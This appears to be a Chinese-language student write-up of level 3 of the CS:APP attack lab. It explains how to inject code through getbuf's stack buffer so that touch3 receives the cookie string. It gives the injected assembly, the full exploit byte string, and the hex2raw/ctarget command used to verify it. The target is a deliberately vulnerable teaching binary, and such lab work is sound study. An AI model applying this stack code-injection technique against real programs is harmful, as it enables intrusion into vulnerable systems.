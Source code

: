 ![image-20211127191142818](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111271911851.png)

### level3

touch3函数接受一个指向字符数组首地址的指针作为参数

![image-20211127195837095](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111271958123.png)

hexmatch接受cookie和字符数组作为参数，将cookie转化为字符串“59b997fa”，字符串的最后会有一个空字符/0作为结束符，十六进制表示为00，strncmp函数比较了9个字符，因此在字符数组后面跟上结束符00

![image-20211127200218526](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111272002553.png)

查看getbuf，在函数返回前会修改栈顶的位置，释放占用的栈空间，而此时通过转移程序控制流执行touch3函数，调用hexmatch时会在栈上分配空间，因此touch3的参数指向的字符数组位置不能放在getbuf申请的占空间上。

![image-20211126104154718](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111272003989.png)

test的栈空间之后不会用到，因此将cookie的字符数组表示放在test的栈空间中。cookie为0x59b997fa，表示为十六进制为35 39 62 39 39 37 66 61 00，栈空间组织如下。

![image-20211127204653792](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111272046849.png)

getbuf栈空间应该执行的汇编代码：将字符数组的首地址通过%rdi寄存器传递给函数touch3，同时设置返回地址为touch3的首地址

```assembly
movq $0x5561dca8, %rdi     
pushq $0x4018fa            
ret
```

生成指令字节序列

> gcc -c level3.s     将汇编代码变成机器代码
>
> objdump -d level3.o >level3.d  将机器代码反编译成汇编代码

![image-20211127205117537](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111272051563.png)

对应攻击字符串的字节序列

```
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 

00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00             
35 39 62 39 39 37 66 61
00
```

验证

```
./hex2raw < solution3.txt | ./ctarget -q
```
